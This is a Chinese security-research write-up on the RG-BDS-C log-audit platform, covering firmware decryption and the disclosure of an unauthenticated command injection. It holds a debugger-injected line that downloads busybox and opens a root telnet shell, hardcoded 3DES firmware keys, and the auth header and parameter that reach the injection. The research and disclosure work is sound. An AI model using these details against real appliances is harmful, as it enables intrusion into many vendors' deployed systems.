





# 某捷 RG-BDS-C 大数据安全平台漏洞挖掘

## 1.背景介绍

RG-BDS系列大数据安全平台提供了众多基于日志分析的强大功能，如安全日志的集中采集、分析挖掘、合规审计、实时监控及安全告警等，系统配备了全球IP归属及地理位置信息数据，为安全事件的分析、溯源提供了有力支撑，日志审计系统能够同时满足企业实际运维分析需求及审计合规需求，是企业日常信息安全工作的重要支撑平台。<br>


基于本文撰写时官网能下到的最新版固件进行研究。<br>

最新版本固件：20230822144639_RG-BDS-C_V5.2-R5.16.P5.b5.20230805.008063.zip

## 2.固件解密

最新版固件下载下来后，发现固件被加密了。需要想办法先将固件进行解密。<br>



从历史版本中发现最开始提供的固件是iso后缀，固件并没有加密，于是猜测是从中间某一个版本才开始将固件进行加密的。<br>

于是定位到最新的未加密固件。<br>

最新的未加密固件：RG-BDS-C-V5.2-R5.16.P5.b4.20220910.008030-5297.iso

### 2.1 安装 ISO

RG-BDS-C-V5.2-R5.16.P5.b4.20220910.008030-5297.iso 是一个Centos 6 系统镜像，利用vmware将它安装运行。<br>

给它分配了200GB硬盘，8GB内存，8核心。<br>

在安装时注意到它被设置了静态ip:192.168.0.100，所以新建了一个vmware网络适配器，ip段为192.168.0.0。<br>

安装成功后就可以通过 https://192.168.0.100:8082 访问硬件管理界面。<br>



### 2.2 获取虚拟机的root shell

获取虚拟机root shell的参考文章：https://zzcentury.github.io/blogs/GetRootShell (通过虚拟机调试获取Root Shell)<br>

在内核函数do_execve下条件断点，匹配参数为/bin/sh -c xxx的函数调用：<br>

```
break *0xffffffff811a33e0 if *(long long*)(*(long long*)($rsi))==0x68732f6e69622f
```

断点断下后，设置命令为：<br>

```
set {char [116]} 0x0000000001145a10 = "sleep 10;killall -9 sshd;cd /tmp; wget 192.168.0.1:8000/busybox -O telnetd;chmod +x telnetd;./telnetd -p 22 -l sh &"
```

等待一会后，就可以通过执行telnet 192.168.0.100 22命令获取虚拟机的root shell。<br>

### 2.3 定位解密代码

首先定位到<br>

JUMING-SMC-class-2.0.jar:com/juminfo/smc/modules/systemManage/action/UpgradeAction.class 文件。<br>

分析addSysUpgradeLog函数。<br>

```
   @Log(info = "system.upgrade")
    @Auth
    public void addSysUpgradeLog() throws Exception {
        File upgradeZipFile = null;
        ZipFile zfile = null;
        try {
            try {
                if (Constant.getUpgradeDate().getTime() + 3600000 <= new Date().getTime()) {
                    SysParam sysParam = this.f1867.loadParameter("UpgradeDoing");
                    sysParam.setParamValue("0");
                    this.f1867.modifySysParam(sysParam);
                    Constant.setUPGRADE_DATE(new Date());
                }
                JSONObject obj = new JSONObject();
                if (this.f1870 != null) {
                    String upgradeDoing = this.f1867.getParameterValueByName("UpgradeDoing");
                    String upgradeFlag = this.f1867.getParameterValueByName("ScloudUpgradeFlag");
                    if (this.f1870.length() > 1073741824) {
                        obj.put("res", "10002");
                    } else if ("1".equals(upgradeDoing)) {
                        obj.put("res", "99999");
                    } else if ("1".equals(upgradeFlag)) {
                        obj.put("res", "99998");
                    } else {
                        String filePath = System.getProperty("smc.root") + "upgradeFile/" + UUID.randomUUID().toString() + File.separator;
                        String tempZipFileName = UUID.randomUUID().toString() + ".zip";
                        FileUtil.upload(this.f1870, filePath, tempZipFileName);
                        upgradeZipFile = new File(filePath + tempZipFileName);
                        f1865.debug("tempZipFileName:" + tempZipFileName);
                        String zipName = "";
                        InputStream fileContent = null;
                        int breakFlag = 0;
                        zfile = new ZipFile(upgradeZipFile);
                        Enumeration zList = zfile.entries();
                        while (zList.hasMoreElements() && breakFlag < 2) {
                            ZipEntry ze = zList.nextElement();
                            if (!ze.isDirectory()) {
                                if (ze.getName() != null && ze.getName().endsWith(".zip")) {
                                    zipName = ze.getName();
                                    fileContent = zfile.getInputStream(ze);
                                    breakFlag++;
                                } else if (ze.getName() != null && ze.getName().endsWith(".key")) {
                                    this.f1869.setMd5Value(new String(IOUtils.toByteArray(zfile.getInputStream(ze))));
                                    breakFlag++;
                                }
                            }
                        }
                        if (zipName.contains("\\") || zipName.contains(Constant.Common.VIRGULE)) {
                            obj.put("res", "10010");
                        } else if (fileContent != null && CharUtil.isNotEmpty(zipName)) {
                            String fileContentPath = FileUtil.upload(fileContent, filePath, zipName);
                            if (CharUtil.isNotEmpty(fileContentPath)) {
                                if (LicenseUtil.checkMD5("2", this.f1869.getMd5Value(), filePath + zipName, zipName)) {
                                    SysParam sysParam2 = this.f1867.loadParameter("UpgradeDoing");
                                    sysParam2.setParamValue("1");
                                    this.f1867.modifySysParam(sysParam2);
                                    Constant.setUPGRADE_DATE(new Date());
                                    this.f1869.setUpgradePackage(filePath + zipName);
                                    this.f1866.addSysUpgradeLog(this.f1869);
                                    obj.put("res", "10000");
                                    HashMap hashMap = new HashMap();
                                    hashMap.put("Package", String.valueOf(this.f1869.getUpgradeID()));
                                    String needRollback = this.E.getParameter("needRollback");
                                    if ("1".equals(needRollback)) {
                                        hashMap.put("RollbackDir", UUID.randomUUID().toString());
                                    }
                                    this.f1873.sendMessage("SMC.SYSUPDATE.NOTICE", hashMap);
		******
}
```

这个函数会计算上传的加密固件的MD5，做一次校验。<br>

之后会执行：<br>

```
this.f1873.sendMessage("SMC.SYSUPDATE.NOTICE", hashMap);
```

猜测是系统内有某个服务来解密固件。<br>

于是在/opt目录下搜索"SMC.SYSUPDATE.NOTICE"字符串：<br>

```
# grep -rn "SMC.SYSUPDATE.NOTICE" /opt/
Binary file /opt/smc/monitor/bin/mon_server matches
```

定位到/opt/smc/monitor/bin/mon_server文件。<br>

可以在/opt/smc/monitor/bin/mon_server文件找到loadPackage函数。<br>

```
__int64 __fastcall loadPackage(__int64 a1, const std::string **a2, unsigned int *a3)
{
  ******
  common::LogInterface::Print(
    4,
    v45,
    "/ws/module/mon_server/source/upgrade.cpp",
    "374",
    "loadPackage",
    "onUpgradeMessage call system:cmd=%s",
    v3);
  std::string::~string(v45);
  system(command[0]);
  std::operator+<char>(v44, "mkdir ", (a1 + 96));
  std::string::assign(command, v44);
  std::string::~string(v44);
  v4 = command[0];
  std::string::string(v43, "", &v54);
  common::LogInterface::Print(
    4,
    v43,
    "/ws/module/mon_server/source/upgrade.cpp",
    "377",
    "loadPackage",
    "onUpgradeMessage call system:cmd=%s",
    v4);
  std::string::~string(v43);
  system(command[0]);
  std::string::~string(command);
  std::string::string(v40, &v50);
  v28[0] = common::id_generator::random_identity(v40);
  v28[1] = v5;
  common::id_generator::identity_string(v37, v28, v5, v6, v7, v8, v16, v18, v20);
  std::operator+<char>(v38);
  std::operator+<char>(v36);
  std::operator+<char>(v39);
  std::string::~string(v36);
  std::string::~string(v38);
  std::string::~string(v37);
  common::decrypt_file(v50, v39[0], v9);
  ******
}
```

loadPackage函数会调用common::decrypt_file函数对固件进行解密。<br>

common::decrypt_file函数位于/opt/smc/lib/libcommonEncrypt.so文件中。<br>

```
__int64 __fastcall common::DecryptFile(common *this, char *a2, char *a3)
{
  songDES *v3; // rbx
  unsigned int v4; // ebp
  songDES *v5; // rbx
  unsigned __int8 v7[272]; // [rsp+0h] [rbp-268h] BYREF
  char dest[272]; // [rsp+110h] [rbp-158h] BYREF
  char v9[16]; // [rsp+220h] [rbp-48h] BYREF
  char v10[16]; // [rsp+230h] [rbp-38h] BYREF
  songDES *v11; // [rsp+240h] [rbp-28h]

  strcpy(v10, "JUMG2016");
  strcpy(v9, "2016JUMG");
  strcpy(dest, this);
  strcpy(v7, a2);
  v3 = operator new(0x28uLL);
  songDES::songDES(v3);
  v11 = v3;
  songDES::DES3_Set_2Keys(v3, v10, v9);
  v4 = 1;
  if ( !songDES::File_Decrypt(v11, dest, v7, 1) )
  {
    puts("Decrypting failed! try DecryptFileBySMCScript");
    v4 = 0;
  }
  v5 = v11;
  if ( v11 )
  {
    songDES::~songDES(v11);
    operator delete(v5);
  }
  return v4;
}
```

函数第一个参数为加密固件文件路径，第二个参数为解密后的固件路径。<br>

于是写一段代码去调用这个函数。<br>

```
#include <stdio.h>
#include <stdlib.h>
#include <dlfcn.h>
#include <stdbool.h>
#include <string.h>

void * libxerces_handle = NULL;

typedef void* (*_ZN6common11DecryptFileEPcS0_)(void *,void *,void *);
_ZN6common11DecryptFileEPcS0_ DecryptFile = NULL;

int main(int argc, char *argv[]){
    
    char *errorInfo;
    
    //printf("[Debug]\n");
    
    libxerces_handle = dlopen("/opt/smc/lib/libcommonEncrypt.so", RTLD_LAZY | RTLD_GLOBAL | RTLD_NOW );
    if (!libxerces_handle){
        printf("[-] libxerces_handle Open Error:%s.\n",dlerror());
        return 0;
    }
   
    DecryptFile = (_ZN6common11DecryptFileEPcS0_)dlsym(libxerces_handle,"_ZN6common11DecryptFileEPcS0_");
    errorInfo = dlerror();
    if (errorInfo != NULL){
        printf("[-] Dlsym Error:%s.\n",errorInfo);
    	dlclose(libxerces_handle);
        return 0;
    }
    printf("[+] DecryptFile : %p\n",DecryptFile); 

    char tmp[0x10] = {0};
    DecryptFile(argv[1],argv[2],tmp);
    
    dlclose(libxerces_handle);
    return 0;

}

// export LD_LIBRARY_PATH=/opt/smc/lib/
// gcc DecryptFile.c -o DecryptFile -ldl
// ./DecryptFile SP_002_Pro.2023.08.05.008063_E-AMD64-CENTOS-Release_1177.zip out.zip
```

至此就可以将固件进行解密了。<br>

## 3.更新固件

由于本人没有将license逻辑分析清楚并进行解密，所以无法进入 https://192.168.0.100:8443 上传固件进行更新。<br>



所以只能将解密后的固件复制到系统中进行手动更新。<br>

解密后的固件目录如下：<br>

```
# ls -al
-rw-r--r-- 1 YF 197121      4301  8月 19  2023 backup.sh
-rw-r--r-- 1 YF 197121 326095608  8月 19  2023 collector_upgrade.zip
-rw-r--r-- 1 YF 197121   3727531  8月 19  2023 core_upgrade.zip
-rw-r--r-- 1 YF 197121      2143  8月 19  2023 rollback.sh
-rw-r--r-- 1 YF 197121       207  8月  1  2023 UpgradeList.ini
-rw-r--r-- 1 YF 197121 120476750  8月 19  2023 web_upgrade.zip
```

web_upgrade.zip，collector_upgrade.zip，core_upgrade.zip就是补丁包。<br>

每一个zip文件中都有一个Upgrade.sh脚本，解压一个zip，执行一次Upgrade.sh就可以更新固件成功。<br>

```
mkdir web_upgrade
wget http://192.168.0.1:8000/web_upgrade.zip -O web_upgrade.zip
export PATH=$PATH:/tmp/Mine/web_upgrade/:/sbin
./Upgrade.sh /tmp/Mine/web_upgrade /tmp/Mine/web_upgrade

mkdir collector_upgrade
wget http://192.168.0.1:8000/collector_upgrade.zip -O collector_upgrade.zip
export PATH=$PATH:/tmp/Mine/collector_upgrade/:/sbin
cp /tmp/collector_upgrade/bin/hardware/sbin/* /opt/smc/hardware/sbin/
./Upgrade.sh /tmp/Mine/collector_upgrade /tmp/Mine/collector_upgrade

mkdir core_upgrade
wget http://192.168.0.1:8000/core_upgrade.zip -O core_upgrade.zip
export PATH=$PATH:/tmp/Mine/core_upgrade/:/sbin
./Upgrade.sh /tmp/Mine/core_upgrade /tmp/Mine/core_upgrade
```



## 4.JAR解密

将新版本的jar包进行分析时，发现函数都没有解析出来。<br>



可见新版本对jar包进行了加密处理。<br>

### 4.1 定位加密代码

查看服务启动命令。<br>

```
java -Djava.util.logging.config.file=/opt/smc/web/tomcat/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -server -Xms512M -Xmx1024M -Xss512k -XX:+AggressiveOpts -XX:+UseBiasedLocking -XX:+DisableExplicitGC -XX:MaxTenuringThreshold=6 -XX:+UseConcMarkSweepGC -XX:+UseParNewGC -XX:+CMSParallelRemarkEnabled -XX:+UseCMSCompactAtFullCollection -XX:LargePageSizeInBytes=128m -XX:+UseFastAccessorMethods -XX:+UseCMSInitiatingOccupancyOnly -javaagent:/opt/smc/hardware/sbin/encryptclass-execute-1.1.jar -Dignore.endorsed.dirs= -classpath /opt/smc/web/tomcat/bin/bootstrap.jar:/opt/smc/web/tomcat/bin/tomcat-juli.jar -Dcatalina.base=/opt/smc/web/tomcat -Dcatalina.home=/opt/smc/web/tomcat -Djava.io.tmpdir=/opt/smc/web/tomcat/temp -Djava.awt.headless=true org.apache.catalina.startup.Bootstrap start
```

发现多了一个/opt/smc/hardware/sbin/encryptclass-execute-1.1.jar文件。<br>

定位到decrypt函数。<br>

```
    @Override // com.juminfo.encrypt.core.executor.Executor
    public byte[] decrypt(ClassInfo classInfo, ExecuteContextInfo contextInfo) throws EncryptException {
        byte[] finalData;
        synchronized (locker) {
            byte[] buffer = classInfo.getClassFileBuffer();
            int end = ByteUtil.readInt(buffer, buffer.length - 8);
            byte[] encrypted = new byte[((buffer.length - end) - 4) - 4];
            System.arraycopy(buffer, end, encrypted, 0, encrypted.length);
            byte[] plain = AESEncryptUtil.decrypt(encrypted, getDecryptPassword(contextInfo).toCharArray());
            finalData = new byte[8 + plain.length];
            System.arraycopy(buffer, 0, finalData, 0, 8);
            System.arraycopy(plain, 0, finalData, 8, plain.length);
        }
        return finalData;
    }
```

decrypt函数会将每个class文件进行解密处理。<br>

### 4.2 解密class文件

将decrypt函数逻辑单独抽出来。<br>

这里只列出部分代码：<br>

```
    public static byte[] decrypt(byte[] buffer) {
            int end = readInt(buffer, buffer.length - 8);
            byte[] encrypted = new byte[buffer.length - end - 4 - 4];
            System.arraycopy(buffer, end, encrypted, 0, encrypted.length);
            byte[] plain = decrypt(encrypted, Key);
            byte[] finalData = new byte[8 + plain.length];
            System.arraycopy(buffer, 0, finalData, 0, 8);
            System.arraycopy(plain, 0, finalData, 8, plain.length);
            return finalData;
    }

    public static void main(String[] args) throws IOException {
        System.out.println("java -jar class_decode.jar infile outfile");
        System.out.println("infile : "+args[0]);
        System.out.println("outfile : "+args[1]);
        Path path = Paths.get(args[0]);
        byte[] data = Files.readAllBytes(path);
        byte[] outbuffer = decrypt(data);
        Files.write(Paths.get(args[1]), outbuffer);
    }
```

再写一个python脚本去批量解密。<br>

```
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import os
from os import listdir
from os import sys
import time

def get_files(dir):
    files = os.listdir(dir)
    return files

def decode_class(path):
    data = get_files(path)
    for index in data:
        if os.path.isdir(path + index):
            decode_class(path + index + "\\")
        else:
            if ".class" in index:
                print(index)
                filepath = path + index
                cmd = "java -jar class_decode.jar %s %s" % (filepath,filepath)
                print(cmd)
                os.system(cmd)

root_path = "E:\JUMING-SMCConsole-class-1.0\"
decode_class(root_path)
```

解密后再将解密后的class重新压缩为jar文件就可以进行分析了，可以看到函数体了。<br>

## 5.漏洞挖掘

这里只列出发现的一个未授权RCE漏洞，更多漏洞读者有兴趣可以自己去分析一波。<br>

### 5.1 8082端口updateSysLog.action接口syslogServerAddr1参数未授权命令注入

漏洞具体发生在函数中，这个函数可以通过https://192.168.0.100:8082/updateSysLog.action未授权访问到。<br>

```
    public void updateSysLog() throws Exception {
        String smcConsoleAuth = this.F.getHeader("SMCConsoleAuth");
        if ("SMCConsole_JM".equals(smcConsoleAuth)) {
            try {
                String syslogConfig = this.F.getParameter("syslogConfig");
                SysLogServer sysLogServer = (SysLogServer) JSONObject.toJavaObject(JSONObject.parseObject(syslogConfig), SysLogServer.class);
                S.info("收到SMC通知去更改SysLog配置：" + sysLogServer.toString());
                if (sysLogServer != null) {
                    ArrayList arrayList = new ArrayList();
                    A(arrayList, sysLogServer.getSyslogLevel(), Constant.RSYSLOG_PROTOCOL_UDP, sysLogServer.getSyslogServerAddr1(), sysLogServer.getSyslogServerPort1());
                    A(arrayList, sysLogServer.getSyslogLevel(), Constant.RSYSLOG_PROTOCOL_UDP, sysLogServer.getSyslogServerAddr2(), sysLogServer.getSyslogServerPort2());
                    A(arrayList, sysLogServer.getSyslogLevel(), Constant.RSYSLOG_PROTOCOL_UDP, sysLogServer.getSyslogServerAddr3(), sysLogServer.getSyslogServerPort3());
                    A(arrayList, sysLogServer.getSyslogLevel(), Constant.RSYSLOG_PROTOCOL_UDP, sysLogServer.getSyslogServerAddr4(), sysLogServer.getSyslogServerPort4());
                    A(arrayList, sysLogServer.getSyslogLevel(), Constant.RSYSLOG_PROTOCOL_UDP, sysLogServer.getUserLogSyslogServerAddr1(), sysLogServer.getUserLogSyslogServerPort1());
                    A(arrayList, sysLogServer.getSyslogLevel(), Constant.RSYSLOG_PROTOCOL_UDP, sysLogServer.getUserLogSyslogServerAddr2(), sysLogServer.getUserLogSyslogServerPort2());
                    A(arrayList, sysLogServer.getSyslogLevel(), Constant.RSYSLOG_PROTOCOL_UDP, sysLogServer.getUserLogSyslogServerAddr3(), sysLogServer.getUserLogSyslogServerPort3());
                    A(arrayList, sysLogServer.getSyslogLevel(), Constant.RSYSLOG_PROTOCOL_UDP, sysLogServer.getUserLogSyslogServerAddr4(), sysLogServer.getUserLogSyslogServerPort4());
                    A(arrayList, sysLogServer.getSyslogLevel(), Constant.RSYSLOG_PROTOCOL_UDP, sysLogServer.getUserLogSyslogServerAddr5(), sysLogServer.getUserLogSyslogServerPort5());
                    C("sudo sed -i '/^*\\..*\\s*@.*:.*/d' /etc/rsyslog.conf");
                    C("sudo sed -i '/^:msg, contains.*/d' /etc/rsyslog.conf");
                    String sysLogFilterContent = sysLogServer.getSysLogFilterContent();
                    if (StringUtils.isNotEmpty(sysLogFilterContent)) {
                        String[] contents = sysLogFilterContent.split(Constant.COMMA);
                        for (String content : contents) {
                            C("sudo sed -i '$a\\:msg, contains, \"" + content + "\" ~' /etc/rsyslog.conf");
                        }
                    }
                    if (!arrayList.isEmpty()) {
                        for (String config : arrayList) {
                            C("sudo sed -i '$a\\" + config + "' /etc/rsyslog.conf");
                        }
                    }
                    C("sync");
                    if (Constant.isDomestical() || Constant.isHygon()) {
                        C("sudo systemtemctl restart rsyslog");
                    } else {
                        C("sudo /etc/init.d/rsyslog restart");
                    }
                    this.A.getWriter().write("updateSysLog SUCCESS!");
                }
                return;
            } catch (Exception e) {
                S.error("update SysLog error!", e);
                this.A.getWriter().write("updateSysLog error! message:" + e);
                return;
            }
        }
        this.A.getWriter().write("SMCConsoleAuth ERROR!");
    }

```

函数会将攻击者可以控制的SyslogServerAddr1参数拼接到命令中进行执行。<br>

```
    if (!arrayList.isEmpty()) {
    	for (String config : arrayList) {
    		C("sudo sed -i '$a\\" + config + "' /etc/rsyslog.conf");
    	}
    }
                    
    private static List<String> C(String command) {
        ArrayList arrayList = new ArrayList();
        String os = System.getProperties().getProperty("os.name");
        if (!os.startsWith("Win") && !os.startsWith("win")) {
            String[] arrC = {"/bin/sh", "-c", command};
            Process process = null;
            try {
                try {
                    process = Runtime.getRuntime().exec(arrC);
                    InputStream inputStrem = process.getInputStream();
                    InputStreamReader inputStreamReader = new InputStreamReader(inputStrem);
                    BufferedReader bReader = new BufferedReader(inputStreamReader);
                    while (true) {
                        String temp = bReader.readLine();
                        if (temp == null) {
                            break;
                        }
                        arrayList.add(temp);
                    }
                    if (process != null) {
                        process.destroy();
                    }
                } catch (Exception e) {
                    S.error("excute command error: " + command, e);
                    if (process != null) {
                        process.destroy();
                    }
                }
            } catch (Throwable th) {
                if (process != null) {
                    process.destroy();
                }
                throw th;
            }
        }
        return arrayList;
    }

```

由此可以造成未授权命令注入漏洞。<br>

## 6.后记

本次研究从调试环境搭建，到固件解密，再到JAR包解密，最终进行最新版的漏洞挖掘。这一顿操作下来，还是蛮有成就感的。遗憾的是没有成功将license逻辑分析清楚并进行解密。<br>

后续去fofa搜索的时候，发现国内起码有6个以上不同的安全厂商，都使用了这一份代码，看代码源头厂商应该是聚铭，感觉挺有趣的。<br>